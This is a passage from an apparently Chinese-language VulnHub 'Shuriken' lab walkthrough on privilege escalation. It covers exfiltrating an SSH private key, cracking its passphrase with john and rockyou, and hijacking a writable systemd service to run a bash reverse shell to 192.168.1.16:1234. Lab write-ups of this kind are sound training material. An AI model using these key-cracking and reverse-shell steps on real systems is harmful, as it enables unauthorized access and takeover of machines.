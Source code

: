 复制该压缩包到`/tmp`目录下，使用`unzip`进行解压，发现一个`id_rsa`文件，可能就是私钥文件

![](D:\stu\vulnhub\shuriken靶场\pic-2\22.jpg)



# 提权

## 水平提权至serv-adm

在靶机使用`python`开启一个简易的`http`服务，然后在`kali`中下载`id_rsa`文件

![](D:\stu\vulnhub\shuriken靶场\pic-2\23.jpg)

尝试使用该文件进行`ssh`连接，发现需要密码，这个在之前的靶场中提到过，在生成`ssh`公私钥时，会进行一个设置，这里就是设置了私钥的密码

![](D:\stu\vulnhub\shuriken靶场\pic-2\24.jpg)

使用`john`套件转换后进行解密，发现密码为`shuriken1995@`

```shell
ssh2john id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![](D:\stu\vulnhub\shuriken靶场\pic-2\25.jpg)

再次使用这个密码进行`ssh`连接，登录成功

![](D:\stu\vulnhub\shuriken靶场\pic-2\26.jpg)

## 垂直提权至root

因为前面收集到`sudo`具有SUID权限，所以还是进行尝试，看是否需要密码，发现不需要，并且有三个文件

![](D:\stu\vulnhub\shuriken靶场\pic-2\27.jpg)

这个是启动某种服务，一般这种服务文件都放置在`/etc/systemd/system`，如果靶机有`locate`命令可用，可以直接使用该命令直接定位其位置。然后查看该服务文件的权限，发现虽然为可读权限，但是文件所属用户为当前登录的用户，所以可以更改其权限

`vim`编辑器不可用，可以使用`vi`或者`nano`

![](D:\stu\vulnhub\shuriken靶场\pic-2\28.jpg)

编辑其文件，发现内容是没30分钟执行`shuriken-job.service`这个服务，先修改这个时间，改为1分钟

![](D:\stu\vulnhub\shuriken靶场\pic-2\29.jpg)

然后查看`shuriken-job.service`的权限以及内容，发现也是可以直接修改权限的，这里直接查看内容，发现有一个单元为启动时执行，表示启动该服务时会执行的操作，这里默认的是`/bin/df`，那么修改为其他脚本，比如这里在该文件中添加`bash`反弹命令

```shell
/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.16/1234 0>&1'
```
